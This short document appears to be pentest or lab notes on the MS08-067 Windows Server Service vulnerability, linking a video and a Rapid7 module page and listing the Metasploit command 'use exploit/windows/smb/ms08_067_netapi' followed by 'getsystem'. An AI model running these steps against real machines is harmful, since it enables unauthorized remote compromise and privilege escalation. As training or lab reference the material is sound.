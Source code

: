 
MS08-067  |  Microsoft Server Service Relative Path Stack Corruption

https://www.youtube.com/watch?v=TKhcN5d5Ua8

------------------

MS08-067 Microsoft Server Service Relative Path Stack Corruption
https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi

------------------

1. Exploit
use exploit/windows/smb/ms08_067_netapi

> getsystem

